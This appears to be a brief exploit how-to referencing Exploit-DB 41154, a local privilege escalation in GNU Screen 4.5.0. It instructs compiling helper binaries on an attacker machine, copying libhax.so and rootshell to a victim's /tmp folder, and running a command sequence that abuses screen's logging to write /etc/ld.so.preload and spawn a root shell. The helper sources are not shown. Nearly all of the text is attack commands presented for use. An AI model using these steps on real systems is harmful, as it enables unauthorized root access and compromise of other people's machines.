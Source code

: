 # EDB-ID-41154

https://www.exploit-db.com/exploits/41154

GNU Screen 4.5.0 - Local Privilege Escalation 

compile binaries on attacker machine
```
./compile.sh
```

transfer libhax.so and rootshell to victim to the /tmp folder

run commands:

```
cd /etc
umask 000 
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" 
screen -ls
/tmp/rootshell
```

